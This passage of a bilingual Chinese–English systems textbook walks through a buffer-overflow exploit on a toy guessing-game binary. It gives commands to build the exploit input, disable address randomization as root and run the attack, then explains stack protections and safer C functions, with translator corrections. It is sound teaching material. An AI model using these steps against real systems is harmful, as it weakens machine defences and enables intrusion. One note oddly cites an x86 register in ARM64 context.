每个数字前面的 `\x` 表示该数字是一个字符的十六进制表示。定义了 `ebuff[]` 之后，`main` 函数只是逐个字符地把它打印出来。要得到对应的字节串，像下面这样编译并运行这个程序：

> The `\x` before each number indicates that the number is formatted as the hexadecimal representation for a character. After defining `ebuff[]`, the `main` function simply prints it out, character by character. To get the associated byte string, compile and run this program as follows:

```
$ gcc -o genEx genEx.c
$ ./genEx > exploit
```

要把 `exploit` 作为 `scanf` 的输入，只需以 `exploit` 为输入运行 `secret`。要让这个攻击在树莓派上生效，需要以 root 身份输入下面这组命令（我们会在示例之后解释发生了什么）：

> To use `exploit` as input to `scanf`, it suffices to run `secret` with `exploit`. To get the exploit to work on a Raspberry Pi, type the following set of commands as root (we will explain what is going on following the example):

```
$ sudo su
[sudo] password for pi:
root@pi# echo "0" > /proc/sys/kernel/randomize_va_space
root@pi# exit
$
```

`sudo su` 命令让你在树莓派上进入 root 模式。提示输入密码时，输入你的密码（我们假设你拥有树莓派的 root 权限）。一旦输入了密码，接下来的这组命令就在 root 模式下输入。注意，用户处于 root 模式时，命令提示符会改变（看起来类似 `root@pi#`）。

> The `sudo su` command puts you in root mode on the Raspberry Pi. When prompted for a password, use your password (we assume you have root access to the Raspberry Pi). As soon as the password is entered, the next set of commands are typed in root mode. Note that the command prompt changes when a user is in root mode (it looks something like `root@pi#`).

`echo` 命令用值 0 覆盖文件 `randomize_va_space` 的内容。接着，`exit` 命令让用户回到普通用户模式。

> The `echo` command overwrites the contents of the file `randomize_va_space` with the value 0. Next, the `exit` command returns the user back to user mode.

> [!NOTE] 译注
> 这会关闭整台机器的地址随机化，做完实验记得改回原值（或重启）。只想对单个程序关闭随机化，可以不用 root，直接运行 `setarch -R ./secret < exploit`：`setarch` 的 `-R`（`--addr-no-randomize`）选项会为它启动的程序禁用虚拟地址空间随机化。[setarch(8)](https://man7.org/linux/man-pages/man8/setarch.8.html)

现在，在提示符处输入下面的命令：

> Now, type the following command at the prompt:

```
$ ./secret < exploit
Enter secret number:
You are so wrong!
You win!
```

程序打印出「You are so wrong!」，因为 `exploit` 中的字符串*不是*秘密数字。但是，程序也打印出了「You win!」。不过回想一下，我们的目标是骗程序返回 0。在一个更大的系统中，「成功」与否由外部程序来跟踪，这时程序返回什么往往比它打印什么更重要。

> The program prints out "You are so wrong!" because the string contained in `exploit` is *not* the secret number. However, the program also prints out the string "You win!" Recall, though, that our goal is to trick the program to return 0. In a larger system, where the notion of "success" is tracked by an external program, it is often most important what a program returns, not what it prints out.

检查返回值，得到：

> Checking the return value yields:

```
$ echo $?
0
```

攻击成功了！我们赢了游戏！

> Our exploit works! We won the game!

### 9.10.6. 防御缓冲区溢出

*9.10.6. Protecting Against Buffer Overflow*

我们展示的例子改变了 `secret` 可执行文件的控制流，迫使它返回表示成功的零值。由于 ARM 和 GCC 为对付这类攻击而加入了栈保护措施，我们不得不用一种相当别扭的方式来实现它。然而，缓冲区溢出攻击在较老的系统上可能造成真正的破坏。一些较老的计算机系统还会*执行*栈内存中的字节。如果攻击者把汇编指令对应的字节放到调用栈上，CPU 就会把这些字节当作*真正的*指令来解释，攻击者就能迫使 CPU 执行*任意由他选定的代码*。幸运的是，现代计算机系统采用了一些策略，让攻击者更难实施缓冲区溢出攻击：

> The example we showed changed the control flow of the `secret` executable, forcing it to return a zero value associated with success. We had to accomplish this in a fairly wonky way due to stack protections that ARM and GCC include to combat this particular type of attack. However, buffer overflow exploits can do real damage on older systems. Some older computer systems also *executed* bytes from stack memory. If an attacker placed bytes associated with assembly instructions on the call stack, the CPU would interpret the bytes as *real* instructions, enabling the attacker to force the CPU to execute *any arbitrary code of their choosing*. Fortunately, there are strategies that modern computer systems employ to make it more difficult for attackers to run buffer overflow exploits:

- **栈随机化**（stack randomization）：操作系统把栈的起始地址分配在栈内存中的随机位置，使调用栈的位置/大小在程序的每次运行之间都不同。我们用值 0 覆盖 `/proc/sys/kernel/randomize_va_space` 文件时，就暂时关闭了树莓派上的栈随机化（重启后这个文件会恢复原值）。如果不关闭栈随机化，运行同一段代码的多台机器会有不同的栈地址。现代 Linux 系统把栈随机化作为标准做法。然而，执着的攻击者可以用不同的地址反复尝试，暴力破解。一个常见技巧是在真正的攻击代码前面放一个 **NOP 滑板**（NOP sled，即大量 NOP 指令）。执行 NOP 指令（`0x90`）除了让程序计数器递增到下一条指令以外没有任何效果。只要攻击者能让 CPU 从 NOP 滑板中的某处开始执行，NOP 滑板最终就会滑到紧随其后的攻击代码。Aleph One 的文章 *Smashing the Stack for Fun and Profit*<sup>6</sup> 详细介绍了这类攻击的机制。

> - **Stack randomization**: The OS allocates the starting address of the stack at a random location in stack memory, causing the position/size of the call stack to vary from one run of a program to another. When we overwrote the `/proc/sys/kernel/randomize_va_space` file with a 0 value, we temporarily turned off stack randomization on the Raspberry Pi (this file returns to its original value on restart). Without turning off stack randomization, multiple machines running the same code would have different stack addresses. Modern Linux systems use stack randomization as a standard practice. However, a determined attacker can brute force the attack, by attempting to repeat attacks with different addresses. A common trick is to use a **NOP sled** (i.e., a large number of NOP instructions) before the actual exploit code. Executing the NOP instruction (`0x90`) has no effect, other than causing the program counter to increment to the next instruction. As long as the attacker can get the CPU to execute somewhere in the NOP sled, the NOP sled will eventually lead to the exploit code that follows it. Aleph One’s writeup, *Smashing the Stack for Fun and Profit*<sup>6</sup> details the mechanism of this type of attack.

> [!NOTE] 译注
> `0x90` 是 x86 的 `nop` 编码。A64 的 `nop` 是 4 字节的 `0xd503201f`（译者用 Clang 汇编 `nop` 确认），所以 ARM64 上的 NOP 滑板由一串 `1f 20 03 d5`（小端序）组成。

- **栈破坏检测**（stack corruption detection）：另一道防线是设法检测栈何时被破坏。较新版本的 GCC 使用一种叫作**金丝雀**（canary）的栈保护机制，它充当缓冲区与栈上其他元素之间的守卫。金丝雀是存放在不可写内存区域中的一个值，可以与放在栈上的值进行比较。如果金丝雀在程序执行期间「死掉了」，程序就知道自己受到了攻击，并以一条错误信息中止。为简单起见，我们在 GCC 中用 `fno-stack-protector` 选项编译 `secret` 可执行文件，去掉了金丝雀。不过，聪明的攻击者可以在攻击过程中替换金丝雀，让程序检测不到栈的破坏。

> - **Stack corruption detection**: Another line of defense is to try to detect when the stack is corrupted. Recent versions of GCC use a stack protector known as a **canary** that acts as a guard between the buffer and the other elements of the stack. A canary is a value stored in a nonwriteable section of memory that can be compared to a value put on the stack. If the canary "dies" during a program’s execution, the program knows that it is under attack and aborts with an error message. For simplicity, we removed the canary from our `secret` executable by compiling it with the `fno-stack-protector` flag in GCC. However, a clever attacker can replace the canary during the course of the attack to prevent the program from detecting stack corruption.

> [!NOTE] 译注
> 选项的完整写法是 `-fno-stack-protector`。另外，与 x86 用 `%fs`/`%gs` 段寄存器访问线程局部存储不同，AArch64 Linux 上的金丝雀参考值是一个全局变量 `__stack_chk_guard`：译者用 `clang -target aarch64-linux-gnu -O1 -fstack-protector-strong -S` 编译带局部数组的函数，看到的是 `adrp x8, :got:__stack_chk_guard` 加 `ldr`，返回前比较失败则调用 `__stack_chk_fail`。

- **限制可执行区域**：这道防线把可执行代码限制在内存中特定的区域。换句话说，调用栈不再是可执行的。然而，就连这种防御也可以被攻破。在利用**面向返回编程**（return-oriented programming，ROP）的攻击中，攻击者可以从可执行区域中「挑选」指令，从一条指令跳到另一条指令，拼凑出攻击代码。网上有一些著名的例子，尤其是在电子游戏中<sup>7</sup>。

> - **Limiting executable regions**: In this line of defense, executable code is restricted to only particular regions of memory. In other words, the call stack is no longer executable. However, even this defense can be defeated. In an attack utilizing **return-oriented programming** (ROP), an attacker can "cherry-pick" instructions in executable regions, and jump from instruction to instruction to build an exploit. There are some famous examples of this on-line, especially in video games<sup>7</sup>.

然而，最好的防线永远是程序员自己。要防止程序遭受缓冲区溢出攻击，尽可能使用带**长度说明**（length specifier）的 C 函数，并添加执行数组边界检查的代码。至关重要的是，定义的数组必须与选定的长度说明相匹配。[表 1](9.10-buffer_overflow.html) 列出了一些容易受缓冲区溢出影响的「坏」C 函数，以及对应应当使用的「好」函数（假设 `buf` 分配了 12 个字节）：

> However, the best line of defense is always the programmer. To prevent buffer overflow attacks on your programs, use C functions with **length specifiers** whenever possible and add code that performs array bounds checking. It is crucial that any defined arrays match the chosen length specifiers. [Table 1](9.10-buffer_overflow.html) lists some common "bad" C functions that are vulnerable to buffer overflow, and the corresponding "good" function to use (assume that `buf` is allocated 12 bytes):

**表 1.** 带长度说明的 C 函数

*Table 1. C Functions with Length Specifiers*

| 不要用： | 改用： |
|---|---|
| `gets(buf)` | `fgets(buf, 12, stdin)` |
| `scanf("%s", buf)` | `scanf("%12s", buf)` |
| `strcpy(buf2, buf)` | `strncpy(buf2, buf, 12)` |
| `strcat(buf2, buf)` | `strncat(buf2, buf, 12)` |
| `sprintf(buf, "%d", num)` | `snprintf(buf, 12, "%d", num)` |

> | Instead of                | Use                            |
> |---------------------------|--------------------------------|
> | `gets(buf)`               | `fgets(buf, 12, stdin)`        |
> | `scanf("%s", buf)`        | `scanf("%12s", buf)`           |
> | `strcpy(buf2, buf)`       | `strncpy(buf2, buf, 12)`       |
> | `strcat(buf2, buf)`       | `strncat(buf2, buf, 12)`       |
> | `sprintf(buf, "%d", num)` | `snprintf(buf, 12, "%d", num)` |

> [!NOTE] 译注 · 表中有两处仍会溢出
> - **`scanf("%12s", buf)` 应为 `%11s`**：`%s` 的宽度只限制读入的字符数，`scanf` 还要在后面再写一个 `'\0'`，所以 `%12s` 最多写 13 字节，对 12 字节的 `buf` 正好越界 1 字节。译者用 clang 编译这一行，会得到警告：`'scanf' may overflow; destination buffer in argument 2 has size 12, but the corresponding specifier may require size 13`。`fgets(buf, 12, stdin)` 和 `snprintf(buf, 12, ...)` 的 12 则是包含 `'\0'` 在内的缓冲区总大小，是对的。
> - **`strncat` 的第三个参数不是目标缓冲区的大小**，而是最多从源串追加多少个字符；目标缓冲区至少要有 `strlen(dst) + strnlen(src, n) + 1` 字节（见 [strncat(3)](https://man7.org/linux/man-pages/man3/strncat.3.html)）。若 `buf2` 中已有内容，`strncat(buf2, buf, 12)` 照样会溢出，安全的上限应是 `sizeof(buf2) - strlen(buf2) - 1`。
> - `strncpy(buf2, buf, 12)` 不会溢出，但当 `buf` 的长度不小于 12 时，它不会写入 `'\0'`，`buf2` 将不是一个合法的字符串（参见第 2 章关于字符串函数的译注）。

`secret2` 二进制文件（[secret2ARM64.tar.gz](https://diveintosystems.org/book/C9-ARM64/_attachments/secret2ARM64.tar.gz)）不再有缓冲区溢出漏洞。这个新二进制文件的 `playGame` 函数（[main2.c](https://diveintosystems.org/book/C9-ARM64/_attachments/main2.c)）如下：

> The `secret2` binary ([secret2ARM64.tar.gz](https://diveintosystems.org/book/C9-ARM64/_attachments/secret2ARM64.tar.gz)) no longer has the buffer overflow vulnerability. The `playGame` function of this new binary ([main2.c](https://diveintosystems.org/book/C9-ARM64/_attachments/main2.c)) appears below:

```
int playGame(void){
  int guess, secret, len, x=3;
  char buf[12];
  printf("Enter secret number:\n");
  scanf("%12s", buf); //lengths specifier added here!
  guess = atoi(buf);
  secret=getSecretCode();
  if (guess == secret)
    printf("You got it right!\n");
  else{
    printf("You are so wrong!\n");
    return 1;
  }
  printf("Enter the secret string to win:\n");
  scanf("%12s", buf); //length specifier added here!
  guess = calculateValue(buf, strlen(buf));
  if (guess != secret){
    printf("You lose!\n");
    return 2;
  }
  endGame();
  return 0;
}
```

注意，我们给所有 `scanf` 调用都加上了长度说明，使 `scanf` 函数在读入前 12 个字节之后就停止读取。攻击字符串再也无法破坏这个程序了：

> Notice that we added a length specifier to all calls of `scanf`, causing the `scanf` function to stop reading from input after the first 12 bytes are read. The exploit string no longer breaks the program:

> [!NOTE] 译注
> 按上面表格的译注，`%12s` 最多会写入 12 个字符加 1 个 `'\0'`，仍可能越过 `buf` 末尾 1 字节（写到 `%rbp-0x14`）。它挡住了本节这种长串攻击，但严格正确的写法应是 `%11s`。

```
$ ./secret2 < exploit
Enter secret number:
You are so wrong!
$ echo $?
1
```

当然，任何具备基本逆向工程技能的读者，仍然可以通过分析汇编代码赢得这个猜谜游戏。如果你还没尝试过用逆向工程打败这个程序，我们鼓励你现在就试一试。

> Of course, any reader with basic reverse-engineering skills can still win the guessing game by analyzing the assembly code. If you haven’t tried to beat the program yet with reverse engineering, we encourage you to do so now.

### 参考文献

*References*

1.  Mohit Kumar. [Critical Skype Bug Lets Hackers Remotely Execute Malicious Code](https://thehackernews.com/2017/06/skype-crash-bug.html). 2017.

2.  Tamir Zahavi-Brunner. [CVE-2017-13253: Buffer overflow in multiple Android DRM services](https://blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/). 2018.

3.  Tom Spring. [Google Patches ‘High Severity’ Browser Bug](https://threatpost.com/google-patches-high-severity-browser-bug/128661/). 2017.

4.  Christopher Kelty. [The Morris Worm](https://limn.it/articles/the-morris-worm/) Limn Magazine, Issue 1. Issue 1, Systemic Risk. 2011.

5.  David Auerbach. [Chat Wars: Microsoft vs. AOL](https://nplusonemag.com/issue-19/essays/chat-wars/) NplusOne Magazine, Issue 19. Spring 2014.

6.  Aleph One. [Smashing the Stack for Fun and Profit](http://insecure.org/stf/smashstack.html). 1996.

7.  DotsAreCool. [Super Mario World Credit Warp](https://youtu.be/vAHXK2wut_I) (Nintendo ROP example). 2015.
